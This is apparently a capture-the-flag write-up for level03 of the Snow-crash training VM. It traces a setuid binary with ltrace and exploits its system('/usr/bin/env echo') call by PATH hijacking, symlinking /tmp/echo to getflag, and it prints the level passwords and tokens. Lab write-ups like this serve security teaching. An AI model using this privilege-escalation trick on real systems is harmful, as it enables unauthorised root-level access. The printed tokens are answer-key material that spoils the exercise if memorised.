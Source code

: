```yaml
---
title:  "Snow-crash Level03"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - CyberSecurity
  - Github
  - Git

toc: true
toc_sticky: true

date: 2024-02-12
last_modified_at: 2024-02-12
categories: 
- 42
---
```


#### 1. The password of `level03` is the token that got from `level02`.

```
kooda2puivaav1idi4f57q8iq
```
#### 2. So, try login to level03 with the password we got from level02 and try to put the command `ls`. We can see the file `level03`. 
```bash
level00@SnowCrash:~$ su level03
Password: kooda2puivaav1idi4f57q8iq
level03@SnowCrash:~$ ls
level03
```
#### 3. Try to execute the `level03`. but it says `Exploit me`. 
```bash
level03@SnowCrash:~$ ./level03
Exploit me
```
#### 4. When we check with `cat` command, we can see the file type as below. so, we can assume that it's `binary file`. (A binary file is a computer file that is not a text file.)
```bash
level03@SnowCrash:~$ cat level03
ELF44 	($!444  TTT��(((��hhhDDP�td44Q�tdR�td��/lib/ld-linux.so.2GNUGNUOX�;�Sy8n�n��KT{K �K��3LD= T)__gmon_start__libc.so.
6_IO_stdin_usedsetresgidsetresuidsystemgeteg��geteuid__libc_start_mainGLIBC_2.0ii
...
..
.
```
#### 5. So, let's debug with `ltrace`. `ltrace` is a debugging utility on Unix-like systems that can be used to intercept and display dynamic library calls.

```bash
level03@SnowCrash:~$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                         = 2003
geteuid()                                         = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                            = 0
+++ exited (status 0) +++
```
We found the echo of "Exploit me", the same result when we execute ./level03 at the beginning.

`system("/usr/bin/env echo Exploit me"Exploit me`

It shows that `echo` command is executed from the located in `/usr/bin/env`.

If so, we can control the execution of the env command by changing the `PATH` environment variable. 

#### 6. To execute the program `getflag` located in `/bin` as if it were echo, we create a symbolic link named echo to pointing `getflag` in `/tmp` directory. By adding `/tmp` to the PATH, we ensure that our fake echo in `/tmp` is executed when `env` searches for the `echo` command. 

```bash
level03@SnowCrash:~$ ln -s /bin/getflag /tmp/echo
level03@SnowCrash:~$ export PATH="/tmp:$PATH"
level03@SnowCrash:~$ ./level03
Check flag.Here is your token :qi0maab88jeaj46qoumi7maus
```
* `ln`: to create the links for the files

* `-s`: option to specify that this will be a symbolic link.

* /bin/getflag : Location that is stored Password

* `export PATH="/tmp:$PATH"` : Add the PATH environment variable to pointing /tmp directory. 


#### 7.  We got a token for next level04

```
qi0maab88jeaj46qoumi7maus
```
